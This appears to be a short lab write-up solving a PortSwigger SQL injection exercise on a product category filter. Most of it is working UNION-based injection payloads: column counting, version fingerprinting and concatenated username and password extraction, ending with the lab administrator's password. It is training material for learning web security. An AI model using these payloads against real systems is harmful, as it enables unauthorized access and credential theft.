

**SQL Injection: Product category filter**

*- Goal: retrieve all the usernames and passwords in related table and login as `administrator` user*
*- Hint: https://portswigger.net/web-security/sql-injection/cheat-sheet*
*- Analyse:*

1. Determine # of the columnns that the vulnerable query is using
> ` ' order by 1--`: not displayed on the page

> ` ' order by 2--`: displayed on the page

> ` ' order by 3--`: appears Internal Server Error --> 2 columns
2. Determine data type of the columns
> ` ' UNION select NULL,'a'--`: 
> no Error --> second column is data type of string
3. Retrieve datas
> ` 'UNION SELECT NULL,username FROM users--`: appear username 'administrator'

> ` 'UNION SELECT NULL,password FROM users--`: appear list of password

> But we don't know what exactly password is used for administrator. Use cheetsheat.

> ` 'UNION SELECT NULL,version()--` : check type and version of database
> 
PostgreSQL 12.20 (Ubuntu 12.20-0ubuntu0.20.04.1) on x86_64-pc-linux-gnu, compiled by gcc (Ubuntu 9.4.0-1ubuntu1~20.04.2) 9.4.0, 64-bit

> ` 'UNION SELECT NULL, username ||'*'|| password FROM users--`: 
administrator*xabhz40mdkt8rom13hmj

*`LAB SOLVED`*
